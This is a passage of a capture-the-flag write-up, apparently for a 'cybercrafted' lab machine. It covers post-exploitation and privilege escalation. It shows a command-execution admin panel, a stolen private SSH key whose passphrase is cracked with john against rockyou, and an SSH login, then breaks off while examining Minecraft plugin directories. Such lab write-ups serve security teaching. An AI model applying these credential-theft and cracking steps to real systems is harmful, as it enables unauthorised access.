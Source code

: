 ### Post Exploitation  

→ Cracked the obtained password hash.  
→ Logged in with the credentials in admin.cybercrafted.thm page.  
→ After logging in found an admin panel to input system commands.  
→ Executed system commands and found the current user is 'www-admin' and two user directories in /home directory  
  - cybercrafted  
  - xxultimatecreeperxx  
→ Found private ssh key 'id_rsa' in /home/xxultimatecreeperxx/.ssh  

### Privilege Escalation   

→ Horizontal Escalation to user 'xxultimatecreeperxx'  
  - Copied the private RSA key to local machine.  
  - Changed the permission  
    ```
    chmod 600 id_rsa  
    ```
  - Tried logging in using the key via ssh  
    ```
    ssh xxultimatecreeperxx@10.10.101.5 -i id_rsa
    ```
    Prompted to provide the key passphrase  
  - Bruteforcing passphrase  
    ```
    python3 /opt/john/ssh2john id_rsa > id_rsa.hash

    john --wordlist=/usr/share/wordlist/rockyou.txt id_rsa.hash  
    ```
    Found the passphrase as "creepin2006"  
  - Succesfully logged in as "xxultimatecreeperxx" after providing the passphrase.  

→ Tried to escalate privilege using suid binaries, and ran scripts but nothing useful was found.  
→ Upon inspecting crontab found a "tar" job scheduled, referencing the directory "/opt/minecraft".  
→ Found minecraft_server_flag in "/opt/minecraft" directory.  
→ In the same directory found a directory named as "cybercrafted".  
  ```
  xxultimatecreeperxx@cybercrafted:/opt/minecraft/cybercrafted$ ls -la
  total 19568
  -------------contents----------

  drwxr-x--- 3 cybercrafted minecraft     4096 Jun 27  2021 plugins

  -------------contents-----------
  ```
  Found another interesting directory named as "plugins" among other content.  

→ The "plugins" directory contained a another directory named "LoginSystem".  
  ```
  xxultimatecreeperxx@cybercrafted:/opt/minecraft/cybercrafted/plugins$ ls -la
  total 56
  drwxr-x--- 3 cybercrafted minecraft  4096 Jun 27  2021 .
  drwxr-x--- 7 cybercrafted minecraft  4096 Jun 27  2021 ..
  drwxr-x--- 2 cybercrafted minecraft  4096 Oct  6  2021 LoginSystem
  -rwxr-x--- 1 cybercrafted minecraft 43514 Jun 27  2021 LoginSystem_v.2.4.jar
 ```
